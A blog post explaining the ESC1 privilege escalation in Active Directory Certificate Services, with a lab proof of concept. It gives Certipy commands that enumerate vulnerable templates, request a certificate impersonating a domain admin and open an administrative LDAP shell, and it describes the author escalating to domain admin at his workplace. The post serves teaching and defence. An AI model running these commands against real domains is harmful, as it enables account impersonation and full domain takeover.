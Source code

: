 ```yaml
---
date: 2024-04-13
title: esc1 - a surprisingly easy privilege escalation
type:
- post
- posts
weight: 10
series:
aliases:
- /blog/adcs/
---
```


## what is adcs?

adcs, otherwise known as active directory certificate services is a windows server role that issues and manages PKI certificates that are used in authentication and communication protocols.

these certificates are issued through root and subordinate CA's to various different users, computers and services to maintain certificate validity.

## what is esc1?

esc1 is a specific vulnerability targeting overly permissive active directory certificate templates that are issued by these CA's.

more specifically, if a template allows a standard domain user or domain computer to enroll/request a template, depending on how the template is configured they have the potential to impersonate any user on the domain.

i was pretty surprised how easy this was to replicate and even more so by the fact that i haven't come across it before.

the first thing i tried after coming across said vulnerability was to replicate the privilege escalation under my workplace's environment. after approximately an hour using only a standard domain user account, i had successfully manage to impersonate the head of the SOC team to create a new domain user account and add it to the domain admins group using LDAP queries.

![joshPwnedYou](/joshPwnedYou.png)


## what makes a template vulnerable?

there are a few things that we are looking for when exploiting ESC1, however the most damning are enrolment rights being granted to low privileged users and requesters being able to specify a subjectAltName in the CSR.

**example 1:**

![subjectAltName](/sanRequest.png)

in the above image the ability to include a subjectAltName in the CSR to that specific template is allowed.

active directory will prioritise the SAN name in a certificate for identity if the field is present. this means that by specifying a specific username in the SAN a .pfx can be requested to impersonate any user (e.g domain administrators)

when creating a new template it does give a warning mentioning the risks upon allowing anybody to request a SAN, however if cloning an existing template with it enabled it does not grant a warning.

![Prevent](/prevent.png)

ฅ^•ﻌ•^ฅ

### proof of concept

the tool that i used for absolutely everything was certipy which can be downloaded from the below link:

https://github.com/ly4k/Certipy

credit to ly4k for maintaining such a fantastic tool.

for the purpose of this blog i have spun up a VM which mimics an AD & CA server (CXLABS-DC-01)

i've created a template under the name of VulnTemplate which allows for both the requestee to specify the SAN, in addition to normal domain users being able to enroll into this template.

 > python3 entry.py find -u "joshua@CXLABS.LOCAL" -p "REDACTED" -dc-ip "192.168.197.129" -stdout -scheme ldap

 this uses the find module of certipy to enumerate all ADCS templates, where -u and -p are the credentials for the domain account and the DC-IP is the CA.

 it's important to note that certipy uses LDAPS by default, in my messy DC deployment i have not issued any certs for LDAPS authentication, so i've opted to use plain old ldap.

 output from command:

 ![VulnTemplate](/VulnTemplate.png)

 straight away you can see we've found a template vulnerable to ESC1, next we can leverage this and request a certificate with the SAN being "domain_admin" with the payload looking a little something like this:

 > python3 entry.py req -u joshua@cxlabs.local -p REDACTED -target 192.168.197.129 -template VulnTemplate -ca "CXLABS-CXLABS-DC-01-CA" -upn "domain_admin@cxlabs.local"

![POC](/poc.png)

as you can see we have successfully managed to receive a .PFX certificate that allows us to impersonate a domain admin.

we can now use this to open up an administrative LDAP shell using the below payload:

> python3 auth -pfx domain_admin.pfx -dc-ip 192.168.197.129 -ldap-shell -debug

![pwnd](/pwnd.png)
